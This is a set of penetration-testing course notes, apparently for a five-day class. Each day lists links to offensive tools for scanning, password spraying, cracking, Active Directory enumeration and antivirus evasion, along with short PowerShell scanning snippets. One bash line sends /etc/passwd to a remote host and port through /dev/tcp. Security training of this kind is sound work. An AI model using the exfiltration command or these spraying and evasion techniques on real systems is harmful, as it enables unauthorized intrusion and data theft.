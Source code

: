 # Teaching Notes & Extras

## Day 1


## Day 2


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```

### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### NSE script using the Vulners.com API

https://github.com/vulnersCom/nmap-vulners


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year

http://weakpasswords.net/


### Skull Security for useful lists

https://wiki.skullsecurity.org/index.php/Passwords


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

### Verizon Data Breach Investigation Report

https://www.verizon.com/business/resources/reports/dbir/


### Living off the land

Windows: https://lolbas-project.github.io/

Linux: https://gtfobins.github.io/


### PowerShell command history files

%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


### Daily builds of various C# security tools

https://github.com/Flangvik/SharpCollection


### Custom Bloodhound queries

https://github.com/hausec/Bloodhound-Custom-Queries


### Python Bloodhound ingestor

https://github.com/fox-it/BloodHound.py


### Analyze group policy for issues, vulnerabilities:

https://github.com/Group3r/Group3r


### Cracking

NPK: https://github.com/c6fc/npk

Distributed hashcat: https://github.com/hashtopolis/server

High-value rule from different sets combined into one: https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule

KoreLogic masks: https://blog.korelogic.com/blog/2014/04/04/pathwell_topologies

CrackStation's giant wordlist: https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm

John Jumbo: https://github.com/openwall/john


## Day 4


CrackMapExec: https://github.com/Porchetta-Industries/CrackMapExec


### AV Bypass

DefenderCheck: https://github.com/matterpreter/DefenderCheck

AMSITrigger: https://github.com/RythmStick/AMSITrigger

https://amsi.fail/

https://github.com/phra/PEzor

https://vanmieghem.io/blueprint-for-evading-edr-in-2022/

https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

https://github.com/TheWover/donut

Talk the Windows API directly with PowerShell: https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/

## Day5


### Public pentest reports:

https://github.com/juliocesarfort/public-pentesting-reports
